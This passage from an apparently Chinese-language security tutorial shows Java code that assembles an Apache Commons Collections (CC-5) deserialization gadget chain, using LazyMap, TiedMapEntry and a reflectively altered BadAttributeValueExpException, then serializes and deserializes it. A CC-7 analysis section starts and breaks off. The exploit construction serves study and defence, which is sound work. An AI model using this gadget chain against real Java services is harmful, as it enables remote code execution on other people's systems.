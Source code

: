 ```plain
        Map uselessMap = new HashMap();
        Map lazyMap = LazyMap.decorate(uselessMap,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"lituer");//实例化TiedMapEntry，构造方法map传入lazyMap

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);//入口      

        //反射修改val
        Field val = BadAttributeValueExpException.class.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException, tiedMapEntry);
        serialize(badAttributeValueExpException);
        unserialize("ser.bin");

    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## CC-7分析

### 分析过程

CC-7将AnnotationInvocationHandler类换成了HashTable，最后同样是执行得lazyMap

我们先先来看一下HashTable的readObject方法

我们直接跟进一下
